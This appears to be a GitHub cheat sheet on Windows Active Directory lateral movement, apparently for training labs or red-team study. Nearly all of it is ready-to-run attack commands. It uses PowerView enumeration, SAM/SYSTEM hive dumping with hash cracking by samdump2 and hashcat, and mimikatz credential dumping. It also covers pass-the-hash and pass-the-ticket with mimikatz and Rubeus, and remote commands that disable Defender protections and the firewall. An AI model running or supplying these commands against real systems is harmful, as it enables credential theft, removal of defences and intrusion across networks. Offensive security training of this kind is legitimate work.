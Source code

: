 # Lateral Movement

## Using PowerView

> Don't forget to import the script bypassing powershell execution policy

To test if you have an admin access on the current machine:

 ```powershell
 Test-AdminAccess -Verbose
 ```

To see what srevers you have access to:
 
 
 ```powershell
 Find-DomainUserLocation
 ```

 ```powershell
 Invoke-Command -ComputerName dc -ScriptBlock{whoami /groups; hostname}
 ```
  Using PowerShell Remoting
  
  ```powershell
  Enter-PSSession -ComputerName dc
  ```
  
  ## After Getting Local Admin Access...
  
 
 ### Dumping SAM\SYSTEM files for offline cracking:
 
  > C:\Windows\System32\config\SAM


 > C:\Windows\System32\config\SYSTEM

Copying the files to the current directory:

 ```batch
 reg save HKLM\sam sam
 
 reg save HKLM\system system
 ```
 
 On Kali Linux use the `samdump2` tool:
 
 ```bash
 samdump2 system sam
 ```
 
 Take the hashes and crack them with hashcat:
 
 ```bash
 hashcat -D 2 -m 1000 hashes.txt rockyou.txt -r OneRuleToRuleThemAll.rule
 ```
 
### SAM and LSA w/ mimikatz
 
 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords' "lsadump::sam" "exit"'
  ```
Copy the NTLM of the users 😈
 
### Pass the Hash Attack w/ mimikatz


 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"sekurlsa::pth /user:student2 /domain:marvel /ntlm:<NTLM YOU COPIED> /run:powershell.exe"'
  ```
  
Create a session variable and disable defences:
  
  ```powershell
  
  $sess = New-PSSession -ComputerName FILESHARE
  
  Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealTimeMonitoring $true} -session $sess
  
  
  Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -session $sess
  
  
  Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -session $sess
  
  ``` 
  
  
 ### Pass the Ticket Attack w/ mimikatz
 
 Export all ticket to the current directory
 
 ```powershell 
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 invoke-mimikatz -command '"Mimikatz::debug" "sekurlsa::tickets /export" "exit"'

 invoke-mimikatz -command '"Mimikatz::debug" "kerberos::ptt <TICKET FILE NAME>"  "exit"'
 
  ```
  
  Check cached tickets: 
  
  `klist`
  
  ### Pass the Ticket Attack w/ Rubeus
 
 List all the tickets:
 
  ```powershell 
 .\Rubeus.exe klist
 ```
 
 Get more information about the tickets:
 
 ```powershell
 .\Rubeus.exe triage
 ```
 
 Dump the tickets:
 
```powershell
 .\Rubeus.exe dump
```

```powershell
 .\Rubeus.exe ptt /ticket:<BASE64 TICKET>
```
